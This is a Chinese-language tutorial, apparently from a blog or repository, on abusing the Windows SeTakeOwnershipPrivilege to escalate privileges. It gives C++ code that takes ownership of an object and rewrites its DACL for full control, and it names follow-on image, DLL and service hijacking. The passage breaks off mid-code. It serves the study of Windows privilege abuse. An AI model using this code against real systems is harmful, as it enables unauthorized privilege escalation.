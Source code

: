 SeTakeOwnershipPrivilege
------------------------

### 禁止任何公众号/营销号转发

SeTakeOwnershipPrivilege 特权在 Microsoft 官方文档中被描述为 “*Take ownership of files or other objects*”，该特权允许进程通过授予 WRITE\_OWNER 访问权限来获得对象的所有权而无需被授予任意访问权限。

SeTakeOwnershipPrivilege 特权在攻击面上类似于 SeRestorePrivilege，由于可以接管任意对象，因此可以修改对象的 ACL。我们通过修改 Image File Execution Options 注册表或系统资源的 DACL，使我们拥有完全控制权限，并通过映像劫持、DLL 劫持或劫持服务等方法来获得本地特权提升。

滥用该特权，需要先调用一次 `SetNamedSecurityInfoW()` 函数重新设置目标对象的所有者，以获得对象的所有权，如下所示，所有者通过 Sid 来识别。

```c++
// Take owner ship
dwRes = SetNamedSecurityInfoW(
    pObjectName,
    ObjectType,
    OWNER_SECURITY_INFORMATION,
    pTokenUser->User.Sid,
    NULL,
    NULL,
    NULL
);
if (dwRes != ERROR_SUCCESS)
{
    wprintf(L"[-] SetNamedSecurityInfoW Error: [%u].\n", dwRes);
    return status;
}
wprintf(L"[*] Set the owner in the object's security descriptor.\n");
```

然后哦，我们需要一个新的 DACL 并更新到目标对象的安全描述符中，新的 DACL 将为我们授予目标对象的完全控制权限。构建 ACL 需要构建 EXPLICIT\_ACCESS 对象，并使用 `SetEntriesInAclW()` 函数来构建 ACL 对象，如下所示。

```c++
ea[0].grfAccessPermissions = grfAccessPermissions;
ea[0].grfAccessMode = SET_ACCESS;
ea[0].grfInheritance = SUB_CONTAINERS_AND_OBJECTS_INHERIT;
ea[0].Trustee.TrusteeForm = TRUSTEE_IS_SID;
ea[0].Trustee.TrusteeType = TRUSTEE_IS_USER;
ea[0].Trustee.ptstrName = (LPWSTR)pTokenUser->User.Sid;    // Sid of owner
dwRes = SetEntriesInAclW(1, ea, pOldDACL, &pNewDACL);

if (dwRes != ERROR_SUCCESS)
{
    wprintf(L"[-] SetEntriesInAclW Error: [%u].\n", dwRes);
    return status;
}
wprintf(L"[*] Create a new access control list.\n");
```

最后，再一次调用 `SetNamedSecurityInfoW()` 函数，将上述 DACL 对象更新到目标对象中，如下所示。

```c++
// Now that we are the owner, try again to modify the object's DACL.
dwRes = SetNamedSecurityInfoW(
    pObjectName,
    ObjectType,
    DACL_SECURITY_INFORMATION,
    NULL,
    NULL,
    pNewDACL,
    NULL
);
if (dwRes != ERROR_SUCCESS)
{
    wprintf(L"[-] SetNamedSecurityInfoW Error: [%u].\n", dwRes);
```